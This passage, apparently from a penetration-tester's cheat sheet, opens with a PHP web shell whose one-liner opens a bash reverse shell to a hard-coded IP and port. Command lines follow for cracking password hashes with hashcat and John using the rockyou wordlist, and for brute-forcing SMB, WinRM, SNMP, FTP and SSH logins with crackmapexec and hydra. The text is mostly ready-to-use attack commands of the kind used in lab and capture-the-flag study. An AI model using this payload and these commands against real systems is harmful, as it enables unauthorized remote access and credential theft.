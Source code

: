 Php shell:

> $ &lt;?php echo shell\_exec\('bash -i &gt;& /dev/tcp/10.11.0.106/443 0&gt;&1'\);?&gt;  
> $

## PSSWD CRACKING

```text
> $ Look for the hash in online databases
```

Hashcat:

> $ Find mode in hashcat  
> ▪ hashcat --example hashes  
> $ hashcat -m 0 hashes /usr/share/wordlists/rockyou.txt

John:

> $ john files --wordlist=/usr/share/wordlists/rockyou.txt

## PSSWD Mutation

Hashcat

> $ hashcat -m 0 bfield.hash /usr/share/wordlists/rockyou.txt -r rules

## PSSWD BruteForcing

Crackmapexec

> $ Enumerate password policy  
> ▪ crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS --pass-pol  
> $ Bruteforce SMB  
> ▪ crackmapexec smb 10.10.10.172 -u /root/users.lst -p /root/passwords.lst  
> $ Bruteforce winrm  
> ▪ crackmapexec winrm 10.10.10.172 -u /root/users.lst -p /root/passwords.lst

Hydra

> $ Hydra brute force against SNMP  
> ▪ hydra -P password-file.txt -v &gt; $ip snmp

```text
> $ Hydra FTP known user and rockyou password list
```

▪ hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV &gt; $ip ftp

```text
> $ Hydra SSH using list of users and passwords
```

▪ hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u &gt; $ip ssh

```text
> $ Hydra POP3 Brute Force
```
